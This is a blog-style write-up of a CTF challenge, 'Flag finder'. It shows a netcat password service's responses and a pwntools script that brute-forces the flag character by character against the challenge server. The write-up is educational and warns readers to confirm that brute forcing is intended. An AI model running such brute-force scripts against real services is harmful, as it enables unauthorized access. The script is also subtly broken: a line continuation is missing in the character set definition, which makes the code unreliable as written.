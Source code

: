 ```yaml
---
layout: post
date: 2023-09-12 18:00:00 +0200
title: "Flag finder"
excerpt_separator: <!--more-->
---
```


In this challenge, we are tasked with guessing a flag using a `nectcat` service.

<!--more-->

This is less of a _cybersecurity_ challenge and more of a learning to use `netcat` one.

**It requires brute forcing the service, make sure that is the challenge's intent before doing something similar**

## The service

We first need to guess the length of the flag

```
What is the password: p
p is not long enough
```

And once that is done, the server tells us how many characters we got right

```
What is the password: ppppppppppppppppppp
User input: 112
Flag input: 112
There's been an error
```

```
What is the password: pcppppppppppppppppp
User input: 112
Flag input: 112
User input: 99
Flag input: 99
There's been an error
```

## The code

We use `pwntools` for our python scripts and it is particularly useful here.

This script counts how many `\n` characters it received to judge how good a password is

```py
from pwn import *
import time

context.log_level = 'error' # We do not want any messages from pwntools

pwd = ""                    # We could of put pctf{

final_len = 19

# Character set for the brute force
character_set = string.ascii_lowercase \
    + string.ascii_uppercase
    + '0123456789{}'

# How many \n in the current best password attempt
best = 2

for i in range(final_len):
    for c in character_set:
        conn = remote('chal.pctf.competitivecyber.club', 4757)
        conn.recv()
        passwd= pwd + c + "_" * (final_len - 1 - i)

        conn.sendline(passwd)
        time.sleep(0.5)
        count = conn.recv().count(b'\n')

        if count > best:
            best = count
            pwd += c
            print(pwd)
            break
```

